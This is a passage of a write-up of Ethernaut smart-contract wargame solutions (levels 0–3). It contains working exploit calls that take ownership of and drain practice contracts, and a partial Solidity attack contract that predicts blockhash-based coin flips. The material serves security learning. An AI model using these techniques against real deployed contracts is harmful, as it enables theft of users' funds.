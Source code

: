 # Ethernaut solution
## 0. Hello Ethernaut
The goal of this level is to familiarise yourself with how to interact with the current instance through the developer console. You should definitely go through this level yourself 🙂 hint: type await contract.info(). If you reaaaaaaally need another hint, await contract.password(). Ok that's about all the hints I'm going to give you.

## 1. Fallback
The goal of this level is to become the owner and to reduce the balance of the contract to 0.

Let's start by figuring out how to become the owner. If you look at the contract code, the only feasible way of becoming the owner is to trigger the `receive` function. There is a `require` statement that needs to pass so we will call the `contribute` function and specify any value less than 0.001 ETH.

Thereafter we will initiate a plain ETH transfer into the contract to become the owner. To complete the second requirement, we will call the `withdraw` function to withdraw the funds out.

```
await contract.contribute({value: 1337});
await contract.send({value: 1337});
await contract.withdraw();
```

## 2. Fallout
In earlier versions of solidity, the constructor of a contract is defined by a function with the same name as the contract i.e. if your contract name is `Test`, the name of your constructor needs to be `Test` as well.

As of solidity 0.5.0, this is no longer the case but we can still learn something important here — contracts can have malicious functions that are hidden in plain sight. In this example, the function `Fal1out` is spelt incorrectly. It is very easy to miss out on this when skimming through the code.

To become the owner, we can call the `Fal1out` function.
```
await contract.Fal1out({value: 1337});
```

## 3. Coinflip
The goal of this level is to guess result of `side` correctly 10 times in a row. The chance of this happening is 0.5^10 or 0.0009765625% which _could_ happen but very very unlikely. Fortunately for us, the contract has a flaw with their flipping algorithm, specifically relying on `block.number` as a form of randomness. A malicious user can always calculate the correct answer if they run the same algorithm in their attack function before calling your flip function. Deploy the following contract on remix and call the `attack` function to take over the victim contract.
```
pragma solidity ^0.8.0;

contract AttackCoinflip {
    address victim = 0x9010BCEbf802A031eabB52B22F3ec1331D923bBd;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public {
        // This is the same algorithm that is used by the victim contract
        // I am calculating the value for side before calling the victim contract.
        // This will always be correct because both functions are called in the same block.
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        // Normally you would use import the contract here so that you can call the
        // function directly but if you're lazy like me, you call call the function
```